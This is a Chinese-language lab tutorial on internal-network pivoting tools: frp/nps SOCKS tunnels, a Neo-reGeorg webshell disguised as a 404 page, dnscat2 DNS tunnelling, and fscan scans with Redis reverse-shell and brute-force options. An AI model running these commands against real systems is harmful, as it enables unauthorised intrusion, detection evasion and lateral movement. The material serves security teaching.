




# 内网漫游工具

## 一 隧道服务

### 1.1 frp

frp 是一个专注于内网穿透的高性能的反向代理应用，支持 TCP、UDP、HTTP、HTTPS 等多种协议。
可以将内网服务以安全、便捷的方式通过具有公网 IP 节点的中转暴露到公网。

项目地址：https://github.com/fatedier/frp


网络环境的设置：

```
172.16.0.2    kali主机----模拟VPS
172.16.0.10   centos主机--模拟一层主机
172.16.1.5    dvwa1主机---模拟二层主机
172.16.2.4    dvwa2主机---模拟三层主机
目标：使用frp做socks代理访问到第三层网络
```

#### 1.1.1 二层网络模式

将frps及配置文件上传至vps主机后，编辑frps.ini:

```
[common]
bind_addr = 0.0.0.0    #服务端监听地址
bind_port = 7000       #服务端监听端口
token = fsec.io        #鉴权使用的 token 值,客户端需要设置一样的值才能鉴权通过
dashboard_port = 7500  #启用 Dashboard 监听的本地端口,开启web
dashboard_user = fsec    #HTTP用户名
dashboard_pwd = fsec.io  #HTTP密码
allow_ports = 1000-2000  #允许代理绑定的服务端端口
```

输入命令开启frps服务器的监听：

```
nohup ./frps -c frps.ini & #真实环境则是使其让它在后台运行，这样即使shell中断了，也不影响代理
```

```
./frps -c frps.ini #演示环境
```

如下图所示则为启动成功。


访问web页面，看是否成功开启，再后面我们建立了socks代理后也可以再web页面能看到，此处因为我们还没有配置客户端，所以没有显示.


将frpc上传至一层我们获取了shell的机器上， 然后编辑frpc.ini的配置文件。

```
[common]
server_addr = 172.16.0.2      #连接服务端的地址
server_port = 7000            #连接服务端的端口
token = fsec.io               #鉴权使用的 token 值,需要和服务端设置一样的值才能鉴权通过
tls_enable = true             #启用 TLS 协议加密连接
[plugin_socksA]
type = tcp                    #代理类型
remote_port = 1071            #服务端绑定的端口,用户访问此端口的请求会被转发到local_ip:local_port ,理解为端口映射
plugin = socks5               #客户端插件名称
```

配置好文件后，运行客户端：

```
./frpc -c frpc.ini #也可以后台运行，方法跟服务端命令一样
```

当显示我们设置的模块名显示start proxy success则代表socks代理成功


服务端的web界面查看一下,可以看到已经连接成功了.


浏览器的代理指向到vps:1071的地址后，则可以成功访问172.16.1.5.


#### 1.1.2 多层网络模式

如果内网的其他主机出网的情况下，实际上不需要过多考虑，只需要按照二层网络的模式复刻即可(端口号需要调整)。

所以后续只考虑不出网的情况下。

现今我们的情况是通过172.16.0.10的主机，我们可以访问172.16.1.5的主机，但172.16.1.5的主机由于流量不出网，但又需要访问172.16.2.4的主机。

我们需要将流量通过第一层转发到第二层，再由第二层转发到第三层。即为多层代理。
现在我们第二层是可以访问的，所以还需要再做一层代理。


在172.16.0.10的主机中，frps的配置文件：

```
[common]
bind_addr = 0.0.0.0
server_port = 7000
allow_ports = 1000-2000
token = fsec.io
```

运行frps

```
./frps -c frps.ini
```


172.16.1.5的配置：

将frpc的文件拷贝至主机上。


将frpc.ini配置文件修改如下：

```
[common]
server_addr = 172.16.0.10   #将地址填写一层对内的ip
server_port = 7000
token = fsec.io
[plugin_socksB]
type = tcp
remote_port = 1072
plugin = socks5
```

然后运行frpc

```
./frpc -c frpc.ini
```


172.16.0.10的frpc的配置文件修改如下：

```
[common]
server_addr = 172.16.0.2      
server_port = 7000            
token = fsec.io               
tls_enable = true             
[plugin_socksA]
type = tcp                    
remote_port = 1071            
plugin = socks5       
[proxy_networkA]
type = tcp
local_ip = 127.0.0.1
local_port = 1072
remote_port = 1079 
```

随后重新运行frpc

```
./frpc -c frpc.ini
```


随后在FRP的web端出现1079端口代表配置成功。


将浏览器的代理指向vps:1079,即可访问172.16.2.4的页面。


在多层的frp的隧道建立的逻辑图大致如下：


### 1.2 nps

一款轻量级、高性能、功能强大的内网穿透代理服务器。支持tcp、udp、socks5、http等几乎所有流量转发。

项目地址：https://github.com/ehang-io/nps



server端的设置：

```
./nps install
nps start
```




随后访问http://IP:8080/login/index，如能打开网页则代表启动成功。默认口令：admin/123


在web页面中，通过客户端-->新增客户端-->填写备注+唯一验证密钥


client端的设置：

```
./npc -server=172.16.0.10:8024 -vkey=fsec.io -type=tcp
```


server端创建socks代理

web页面-->socks代理-->新增-->填写客户端ID+服务端端口（客户端ID与之前所创建的ID保持一致）


将浏览器的代理指向npsserver:port即可。


成功获取到内网资源即可。


### 1.3 ngrok/花生壳/todesk/teamviewer

ngrok是一个反向代理，通过在公共的端点和本地运行的 Web 服务器之间建立一个安全的通道。

花生壳软件提供内网穿透、端口映射服务,支持外网访问内网服务器,为用户提供免费动态域名申请,软件下载,域名解析,解析教程等服务。

ToDesk远程控制软件是一款稳定流畅的远程控制电脑手机连接软件,可远程桌面办公,远程协助运维.采用端对端加密,让每一次远程访问都安全可靠.

TeamViewer是一个能在任何防火墙和NAT代理的后台用于远程控制的应用程序，桌面共享和文件传输的简单且快速的解决方案。


## 二 HTTP隧道

### 2.1 Neo-reGeorg

**Neo-reGeorg** 是一个旨在积极重构 [reGeorg](https://github.com/sensepost/reGeorg) 的项目，目的是：

- 提高可用性，避免特征检测
- 提高 tunnel 连接安全性
- 提高传输内容保密性
- 应对更多的网络环境场景下使用

项目地址：https://github.com/L-codes/Neo-reGeorg

生成自定义连接密码的shell。

```
python3 neoreg.py generate -k fsec.io
```



将生成的shell文件上传至目标服务器。


上传后访问路径，如果显示如下空白则代表没有问题，直接做代理


使用 neoreg.py 连接 WEB 服务器，在本地建立 socks5 代理

```
python3 neoreg.py -k fsec.io -p 1099 -u http://172.16.1.4/hackable/uploads/tunnel.php
-k 指定连接密码 -p 指定socks监听端口 -u 指定shell代理路径
```


随后即可将代理指向至代理服务器地址后，即可访问内网资源。


将shell页面伪装成404页面
先访问个404页面，像下面显示，会列出路径，那么我们在上传之前就先访问下我们shell上传的路径，会
出一个真实404页面，然后我们再右键页面另存为保存到本地，--file参数 指定我们保存出来的404页面


```
python3 neoreg.py generate -k fsec.io --file 404.html --httpcode 404
```


随后shell上传后，直接访问页面会与404页面相似，或许理解成俄罗斯走位就行了。


启动socks代理

```
python3 neoreg.py -k fsec.io -p 1099 -u http://172.16.1.4/hackable/uploads/tunnel.php --skip
这里要加--skip，不然就会认为这是404页面，连接不上
```


## 三 ICMP 隧道

使用场景
场景：
两台机器间，除了允许互ping,其他的TCP/UDP端口一律不允许，此时可以考虑使用ICMP进行穿透
原理：
替换Data部分，利用客户端程序进行接收并处理服务端发送的畸形的ICMP协议。

### 3.1 pingtunnel


### 3.2 Icmpsh


### 3.3 Icmpshell


### 


## 四 DNS隧道

### 4.1 dnscat2

server端的配置：

```
yum -y install ruby* gcc* make
gem install bundler
cd /opt/dnscat2-master/server/
bundle install
```



Client端的配置：

```
cd /opt/dnscat2-master/client
Make
```


dns隧道建立：

Server端：

```
ruby dnscat2.rb
```


Client:

```
./dnscat --dns server=172.16.0.10,port=53 --secret=035979136671378badb1e042ee821c3e
```


Server端会返回信息：New window created


切换至对应的window

```
command (dvwa1) 3> windows -a
dnscat2> window -i 3
```


剩下的内容自己看看就好啦，另外Wireshark抓包查看udp port 53 的过滤信息分析特征值。


## 五 内网扫描工具

### 5.1 fscan

一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。
支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写公钥、计划任务反弹shell、读取win网卡信息、web指纹识别、web漏洞扫描、netbios探测、域控识别等功能。

项目地址：https://github.com/shadow1ng/fscan

简单用法

```
./fscan -h 192.168.1.1/24 (默认使用全部模块)
./fscan -h 192.168.1.1/16 (B段扫描)
```

其他用法

```
./fscan -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)
./fscan -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)
./fscan -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
./fscan -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
./fscan -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
./fscan -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)
./fscan -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径)
./fscan -h 192.168.1.1/8 (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
./fscan -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
./fscan -h 192.168.1.1/24 -m ms17010 (指定模块)
./fscan -hf ip.txt (以文件导入)
./fscan -u http://baidu.com -proxy 8080 (扫描单个url,并设置http代理 http://127.0.0.1:8080)
```


### 5.2 F-NAscan

网络资产信息扫描 在渗透测试(特别是内网)中经常需要对目标进行网络资产收集，即对方服务器都有哪些IP，IP上开了哪些端口，端口上运行着哪些服务，此脚本即为实现此过程，相比其他探测脚本有以下优点：

```
1、轻巧简洁,只需python环境，无需安装额外外库。
2、扫描完成后生成独立页面报告。
```

 此脚本的大概流程为 ICMP存活探测-->端口开放探测-->端口指纹服务识别-->提取快照(若为WEB)-->生成结果报表

 运行环境:python 2.6 +

参数说明

```
-h 必须输入的参数，支持ip(192.168.1.1)，ip段（192.168.1），ip范围指定（192.168.1.1-192.168.1.254）,ip列表文件（ip.ini），最多限制一次可扫描65535个IP。
 -p 指定要扫描端口列表，多个端口使用,隔开  例如：22,23,80,3306。未指定即使用内置默认端口进行扫描(21,22,23,25,53,80,110,139,143,389,443,445,465,873,993,995,1080,1723,1433,1521,3306,3389,3690,5432,5800,5900,6379,7001,8000,8001,8080,8081,8888,9200,9300,9080,9999,11211,27017)
 -m 指定线程数量 默认100线程
 -t 指定HTTP请求超时时间，默认为10秒，端口扫描超时为值的1/2。
 -n 不进行存活探测(ICMP)直接进行扫描。

 结果报告保存在当前目录(扫描IP-时间戳.html)。
```

 例子：

```
 python NAScan.py -h 10.111.1
 python NAScan.py -h 192.168.1.1-192.168.2.111
 python NAScan.py -h 10.111.1.22 -p 80,7001,8080 -m 200 -t 6
 python NAScan.py -h ip.ini -p port.ini -n
```

 服务识别在server_info.ini文件中配置
 格式为：服务名|默认端口|正则  例 ftp|21|^220.*?ftp|^220-
 正则为空时则使用端口进行匹配，否则以正则匹配结果为准。


### 5.3 nbtscan

这是一款用于扫描Windows网络上NetBIOS名字信息的程序。该程序对给出范围内的每一个地址发送NetBIOS状态查询，并且以易读的表格列出接收到的信息，对于每个响应的主机，NBTScan列出它的IP地址、NetBIOS计算机名、登录用户名和MAC地址。
但只能用于局域网,NBTSCAN可以取到PC的真实IP地址和MAC地址，如果有”ARP攻击”在做怪，可以找到装有ARP攻击的PC的IP/和MAC地址。

```
Examples:
	nbtscan -r 192.168.1.0/24
		Scans the whole C-class network.
	nbtscan 192.168.1.25-137
		Scans a range from 192.168.1.25 to 192.168.1.137
	nbtscan -v -s : 192.168.1.0/24
		Scans C-class network. Prints results in script-friendly
		format using colon as field separator.
		Produces output like that:
		192.168.0.1:NT_SERVER:00U
		192.168.0.1:MY_DOMAIN:00G
		192.168.0.1:ADMINISTRATOR:03U
		192.168.0.2:OTHER_BOX:00U
		...
	nbtscan -f iplist
		Scans IP addresses specified in file iplist.
```

